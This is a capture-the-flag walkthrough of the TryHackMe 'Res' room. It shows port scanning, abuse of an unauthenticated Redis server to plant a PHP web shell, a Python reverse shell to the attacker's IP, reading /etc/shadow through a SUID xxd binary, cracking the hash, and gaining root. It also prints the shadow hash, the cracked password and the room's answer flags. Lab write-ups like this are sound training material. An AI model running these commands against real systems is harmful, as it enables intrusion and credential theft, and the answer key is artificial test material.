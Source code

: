 # Res
https://tryhackme.com/room/res

## Scan the machine, how many ports are open?
`nmap -sC -sV -vv $ip | tee nmap-log`

This finds a single port open on port 80, however this isn't all the ports that are open so I run a secondary scan this time using a SYN scan.

`sudo nmap -sS -p- -v $ip | tee nmap-log-syn`

This find an additional port on 6379

**Answer: 2**

## What's is the database management system installed on the server?
Aside from the name of this room we can use nmap to perform enumeration.

To do this I perform a search on my local machine for nmap scripts using `find / -name "*sql*.nse" 2>/dev/null` which returns a list of nmap scripts, however the one I want to use in this instance is called _/usr/share/nmap/scripts/ms-sql-info.nse_

I then use this script with nmap to perform some enumeration.

`nmap -sV --script=ms-sql-info -p 6379 $ip`

This finds that the service being used is called _redis_ with the version _Redis key-value store 6.0.7_

**Answer: redis**

## What port is the database management system running on?
Found earlier in our nmap SYN scan.

**Answer: 6379**

## What's is the version of management system installed on the server?
Found earlier in our NSE script scan for sql info.

**Answer: 6.0.7**

## Compromise the machine and locate user.txt 
I access the redis service using the redis-cli `redis-cli -h $ip` and run the `info` command which shows me that anonymous connections are enabled.

It also showed me that there is a user on the server called "vianka" and that 

I then check [Hacktricks](https://book.hacktricks.xyz/) for tips on pentesting Redis and find [this page](https://book.hacktricks.xyz/pentesting/6379-pentesting-redis)

I then establish a webshell using my available credentials:
```
config set dir /var/www/html # Default Directory for Apache2 on Ubuntu
config set dbfilename redis.php
set test "<?php system($_GET["cmd"]); ?>"
save
```

Once this has been saved I can navigate to `http://$ip:80/redis.php` and provide the `?cmd=` parameter to pass scripts to shell for RCE.

I then check to see if Python in installed so I can establish a reverse shell on the server by setting the cmd parameter to contain: `python3 --version`

Once Python3 was confirmed to be installed I started a netcat listener on my machine `nc -lvnp 4444` and created a python command to pass to the cmd parameter to establish a reverse shell.

`python -c 'import socket,os,pty;s=socket.socket();s.connect((<VPN IP>,4444));[os.dup2(s.fileno(),fd) for fd in (0,1,2)];pty.spawn("/bin/sh")'`

Once this reverse shell was received I stabilized it and continued.

To find the user flag I used the following command `find / -name "*user.txt*" 2>/dev/null` and found a file in vianka's home directory `cat /home/vianka/user.txt`

**Answer: thm{red1s_rce_w1thout_credent1als}**

## What is the local user account password?

I couldn't find any way to find the local user's password with my current account so I aimed at escalating to the root user for more access.


I search for SUID binaries using the command `find / -user root -perm -4000 -print 2>/dev/null` and then check GTFO Bins for each result.

[Result: /usr/bin/xxd SUID](https://gtfobins.github.io/gtfobins/xxd/#suid)

I use this exploit to read the contents of the shadow file using `/usr/bin/xxd "/etc/shadow" | xxd -r` and get the following information:

```vianka:$6$2p.tSTds$qWQfsXwXOAxGJUBuq2RFXqlKiql3jxlwEWZP6CWXm7kIbzR6WzlxHR.UHmi.hc1/TuUOUBo/jWQaQtGSXwvri0:18507:0:99999:7:::
```
I write this to a file then use John to crack the hash `john hash.txt` which reveals the password as "beautiful1"

**Answer: beautiful1**

## Escalate privileges and obtain root.txt
Using the password I found from above I shell into the user vianka using `su vianka` and entering the password.

Once on the account I run `sudo -l` to check the available privileges and get the response (ALL : ALL) ALL therefore I run `sudo su -` to access the root user and navigate to the root directory and read the contents of root.txt

**Answer: thm{xxd_pr1v_escalat1on}**